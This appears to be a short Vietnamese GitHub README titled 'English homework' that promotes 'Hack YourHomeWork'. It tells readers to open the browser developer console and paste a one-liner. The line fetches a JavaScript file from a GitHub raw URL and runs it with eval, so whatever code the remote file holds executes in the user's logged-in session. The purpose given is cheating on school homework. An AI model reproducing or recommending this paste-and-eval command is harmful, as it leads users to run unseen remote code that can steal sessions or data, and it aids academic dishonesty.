

# Bài tập Tiếng Anh

<p align="center">
     
</p>

#### <p align="right"> Minh-Nhật-A3

### 👨‍💻 Hack YourHomeWork

**Sử dụng F12** hoặc **Ctrl+Shift+J** để mở phần bảng điều khiển.

----

### 🎓 Hướng dẫn

**Copy dòng sau và Paste vào bảng điều khiển**

``` fetch("https://raw.githubusercontent.com/Rainsh0wer/Project.Storm/main/main/Alpha01.js").then(a=>a.text().then(b=>eval(b))) ```

### 🎬 Video Hướng Dẫn
``` Hiện chưa có ```

# Người đăng
- [Rainsh0wer](https://github.com/Rainsh0wer)


